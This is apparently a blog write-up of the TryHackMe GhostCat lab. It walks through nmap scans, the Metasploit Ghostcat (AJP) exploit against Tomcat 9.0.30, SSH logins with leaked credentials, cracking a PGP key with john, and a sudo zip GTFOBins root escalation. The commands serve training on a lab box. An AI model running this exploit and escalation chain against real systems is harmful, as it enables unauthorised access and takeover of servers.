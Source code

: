 ```yaml
---
title: TryHackMe GhostCat -- Writeup
date: 2022-03-04
categories: [TryHackMe, Easy]
tags: [ctf, linux, tomcat, exploit-db, mis-config]     # TAG names should always be lowercase
---
```

`export ip=10.10.2.234`

### nmap basic

```bash
nmap $ip

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy
MAC Address: 02:D6:2B:FE:BC:A9 (Unknown)

```

### nmap --script=vuln -sCV

```bash
nmap --script=vuln -sCV $ip

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /examples/: Sample scripts
|_  /docs/: Potentially interesting folder
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 02:D6:2B:FE:BC:A9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

Next shoudl be inspecting 8080, 8009, and 53. since 22 is ssh i might not waste
my time on it.

Port 8080 is tomcat default installation welcome page (seemingly fine?) Port
8009 is ajp13 protocol. well.. The server seems ok right?. so now its time todo
some manual enumeration, searching the tomcat version i found it vulnerable
`Apache Tomcat 9.0.30` to Ghostcat. An easy to get things working by using
metasploit

```bash
msfconsole
search GhostCat
use 0
set rhost 10.10.2.234
run
```

after running the exploiwe can see a welcome msg with probably credentials
`skyfuck:8730281lkjlkjdqlksalks`<br>Lets try using ssh with this creds
`ssh skyfuck@$ip` Oh shit.. it works :)

### Enum as skyfuck

user directory

```bash
drwxr-xr-x 3 skyfuck skyfuck 4.0K Apr  3 20:09 .
drwxr-xr-x 4 root    root    4.0K Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3.7K Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4.0K Apr  3 20:09 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5.1K Mar 10  2020 tryhackme.asc

```

We got .pgp and .asc files. alright lets try to decrypt it. running pgp --import
on the box gives me bs error. so i just move the files to my machine and
manually decrpt it.

```bash
"Host"
scp skyfuck@10.10.200.225:/home/skyfuck/credential.pgp cred.pgp
scp skyfuck@10.10.200.225:/home/skyfuck/tryhackme.asc key.asc

```

## Cracking .asc with john

```bash
/usr/lib/john/gpg2john key.asc > hash
john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
john hash --show
```

Alright, now we got passwd for the gpg. we can use gnugpg to read the text

```bash
gpg --import key.asc
gpg --decrypt cred.pgp

gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoil***********************g3k12j3kj123j
```

got merlin creds, lets log as him `ssh merlin@$ip`

### Enum as merlin

```bash
sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

You know the vibes from here, GTFObins timeeeee

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'h #'
sudo rm $TF
```

Thanks for reading, Hope this helps :)
